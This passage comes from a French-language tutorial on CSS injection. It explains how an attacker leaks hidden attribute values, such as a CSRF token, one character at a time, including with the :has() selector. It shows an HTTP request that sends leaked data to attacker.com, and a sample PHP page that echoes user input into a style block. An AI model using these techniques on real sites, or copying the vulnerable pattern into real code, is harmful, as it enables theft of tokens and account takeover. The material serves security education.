 L'attaquant devra continuer son attaque pour récupérer ainsi les caractères restants :

{% code overflow="wrap" %}
```http
GET /?leak=ab4f63f9 HTTP/1.1
Host: attacker.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Referer: https://vulnerable.com
Connection: close
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (145).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
L'inconvénient de ces techniques est qu'elles sont limitées à la récupération d'une information présente au sein d'un attribut. Impossible donc ici de récupérer le contenu d'un élément `<span></span>`, d'un `<script></script>` ou d'un paragraphe `<p></p>` par exemple.

Il existe toutefois d'autres techniques permettant cela et qui seront vues dans les prochaines parties de cet article.
{% endhint %}

### Récupération de la valeur d'un attribut d'un élément HTML de type hidden via la pseudo-class CSS `has()`

Une alternative pouvant répondre à certaines limites des combinateurs CSS est d'utiliser le sélecteur CSS `has()` de la façon suivante :&#x20;

{% code overflow="wrap" %}
```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <style>
      h1 {
        color: <?php echo htmlspecialchars($_GET['color'], ENT_QUOTES | ENT_SUBSTITUTE | ENT_HTML5, "UTF-8") ?>;
      }
  </style>
  </head>
  <body>
    <h1>Has attribute selectors iframe with hidden input</h1>
    <form action="" method="POST">
        <input type="password" name="newPassword" placeholder="New Password">
        <input type="password" name="confirmNewPassword" placeholder="Confirm New Password">
        <input type="hidden" name="csrf-token" value="a5ccef6a-1f00-4a02-b16b-e4e9e517b223">
        <input type="submit" name="changePassword" value="Continue">
    </form>
  </body>
</html>
```
{% endcode %}
